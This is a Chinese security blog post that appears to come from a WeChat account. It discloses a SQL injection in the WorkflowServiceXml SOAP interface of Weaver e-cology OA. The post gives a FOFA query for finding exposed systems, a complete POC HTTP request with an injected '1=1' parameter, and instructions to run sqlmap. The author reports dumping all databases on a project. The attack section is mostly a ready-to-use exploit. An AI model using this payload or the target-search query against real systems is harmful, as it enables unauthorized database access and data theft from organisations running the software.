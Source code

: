 #  泛微ecology系统 WorkflowServiceXml 接口处存在SQL注入漏洞   
原创 V1xk  渗透小记   2024-07-30 20:44  
  
**欢迎来到**  
**渗透小记****公众号******  
  
**“**  
 免责声明：  
本文仅用于技术讨论与学习，利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者及本公众号团队不为此承担任何责任。”  
  
建议把 **渗透小记**  
 公众号设置为  
**星标**  
，这样能更快看到新的文章推送哦！  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/IZfLlbROBibIP4KMM9Gibd4pIMBhn4Y8yOrYz3kSaib4icRf2p6bgClSaeJ1yuiaMyEvNoUayM5ygh9gUribek6WbQYQ/640?wx_fmt=jpeg "")  
  
**一、漏洞描述**  
  
**泛微e-cology依托全新的设计理念,全新的管理思想。为中大型组织创建全新的高效协同办公环境。智能语音办公,简化软件操作界面。身份认证、电子签名、电子签章、数据存证让合同全程数字化。该系统中 WorkflowServiceXml 接口处存在SQL注入漏洞，****未经授权的远程攻击者可以利用该漏洞执行任意SQL语句从而对数据库进行任意操作，包括植入后门木马等。******  
****  
  
****  
**二、空间测绘引擎**  
  
****  
**fofa语法：**  
```
app="泛微-协同办公OA"
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/IZfLlbROBibI7MNBwDa8AgCCwq8IKnghOiaP9YDH5iauzAfyrhmCepURyh0dIib9XFu1ZaKSjicjuAe7eGqIoBtG3CA/640?wx_fmt=png&from=appmsg "")  
  
  
  
**三、漏洞复现**  
  
  
部分页面：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/IZfLlbROBibI7MNBwDa8AgCCwq8IKnghOIDF6EUNeMdNb5SGU9xSAouGNxx5uKOiaFGkJ9AbqDlHyicaVgicuNMWaQ/640?wx_fmt=png&from=appmsg "")  
  
**POC：**  
```
POST /services/WorkflowServiceXml HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Content-Type: text/xml
Accept-Encoding: gzip
Content-Length: 487

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:web="http://webservices.workflow.weaver"> <soapenv:Header/>
  <soapenv:Body>
      <web:getHendledWorkflowRequestList>
        <web:in0>1</web:in0>
        <web:in1>1</web:in1>
        <web:in2>1</web:in2>
        <web:in3>1</web:in3>
        <web:in4>
            <web:string>1=1</web:string>
        </web:in4>
      </web:getHendledWorkflowRequestList>
  </soapenv:Body>
</soapenv:Envelope>
```  
  
此次记录涉及隐私，故上厚码。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/IZfLlbROBibI7MNBwDa8AgCCwq8IKnghOPdEIb2nqLJ0AIT3IowP4KSRa6hO24hk3egLuIXWsKpFQ9Mjf6Ecu3Q/640?wx_fmt=png&from=appmsg "")  
  
出现如上返回包可判断疑似出现SQL注入，直接扔进sqlmap里面跑就好，下面是跑出来的记录文件  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/IZfLlbROBibI7MNBwDa8AgCCwq8IKnghO7gQD9lGCx7yicpoWxOtHprEbeoyOSC5SEN6pGGWIMLrFicpaYF1WGyfw/640?wx_fmt=png&from=appmsg "")  
  
继续深入，爆出来所有数据库。今天先这样，此次项目涉及隐私，不方便放太多图，见谅。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/IZfLlbROBibI7MNBwDa8AgCCwq8IKnghOlCCohXcDP2rTYugxxFVia14VTMZaRa85ng75CkJ5uibJQehfq4NwxoLA/640?wx_fmt=png&from=appmsg "")  
  
****  
**写文章的目的在于记录与分享，如果喜欢的话可以点个关注哦，不定期会更新精彩内容！**  
  
  
